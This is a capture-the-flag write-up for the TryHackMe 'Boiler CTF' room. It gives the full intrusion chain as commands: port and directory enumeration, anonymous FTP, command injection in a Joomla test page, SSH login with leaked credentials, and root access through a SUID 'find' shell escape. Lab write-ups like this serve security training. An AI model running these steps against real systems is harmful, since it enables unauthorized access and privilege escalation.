 # [Boiler CTF](https://tryhackme.com/room/boilerctf2)

## Intermediate level CTF

# Questions #1

## Intermediate level CTF. Just enumerate, you'll get there.

### File extension after anon login

1. Enumerate ports with nmap

```Bash
nmap -p- -sV <IP>
```

![SCREEN01](https://github.com/user-attachments/assets/a531c3d5-b1ab-4e54-a4a1-e54c1f6d5384)

2. There is an ftp port on which we can log in anonymously

```Bash
ftp <IP>
anonymous
cd /
ls -la
get .info.txt
```

![SCREEN03](https://github.com/user-attachments/assets/069303b0-1e7b-4814-8f35-72711a0c11a5)

3. The file is encoded with ROT13, and contains very important information ;)

### What is on the highest port?

### What's running on port 10000?

1. After enumerating the ports we know that on highest port there is `ssh`, and there is webmin running on the port 10000

![SCREEN01](https://github.com/user-attachments/assets/3bdee817-07f0-42ac-a128-378591af040f)

### What CMS can you access?

1. After running gobuster, we find out about `/joomla` endpoint

```Bash
gobuster dir -u http://<IP>:80 -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -x js,txt,html,php
```

![SCREEN02](https://github.com/user-attachments/assets/abe8f50a-7755-4956-a699-38d4b91da806)

### The interesting file name in the folder?

1. Let's go deeper into Joomla

```Bash
gobuster dir -u http://<IP>:80/joomla/ -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -x js,txt,html,php
```

![SCREEN04](https://github.com/user-attachments/assets/97b0f159-48c3-4004-abdd-313185b27ebc)

2. The `/administrator` and `/_files` are the most interesting ones. I decided to search for more directories with `_` prefix. This way I stumbled upon `/_test` directory

```Bash
sed 's/^/_/' /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt > underscore-wordlist.txt
```

```Bash
gobuster dir -u http://<IP>/joomla/ -w underscore-wordlist.txt
```

![SCREEN05](https://github.com/user-attachments/assets/ddba2503-fda7-4251-8bfc-7d04b2c8f0d4)

3. If we try command injection we can get a list of files

![SCREEN06](https://github.com/user-attachments/assets/4550f240-e0d0-4d00-bf98-47e354283681)

# Questions #2

## You can complete this with manual enumeration, but do it as you wish

### Where was the other users pass stored?

1. In `log.txt`, we can find credentials to log in using ssh

![SCREEN07](https://github.com/user-attachments/assets/40b8aff0-08b6-46dd-85eb-9c0a3ace712d)

```Bash
ssh basterd@<IP> -p 55007
python -c 'import pty; pty.spawn("/bin/bash")'
ls
cat backup.sh
```

![SCREEN08](https://github.com/user-attachments/assets/4ea9de35-e05a-4676-a635-361c9f913eb9)

### user.txt

1. Switch to our newly acquired user

```Bash
su stoner
ls -la
cat .secret
```

![SCREEN09](https://github.com/user-attachments/assets/0f8ef817-29a3-43c0-ac21-7090128a7c01)

### What did you exploit to get the privileged user?

1. `sudo -l` doesn't give us anything useful so let's search for SUID binaries

```Bash
find / -perm -u=s -type f 2>/dev/null
```

![SCREEN10](https://github.com/user-attachments/assets/4dd92c31-3d12-4d10-a859-17dedd02fd31)

2. Go to the [GTFOBins](https://gtfobins.github.io/gtfobins/find/) and search for the `find` command

```Bash
/usr/bin/find . -exec /bin/sh -p \; -quit
cat /root/root.txt
```

![SCREEN11](https://github.com/user-attachments/assets/5ae5cdda-fcdd-4e43-9724-076981effe78)
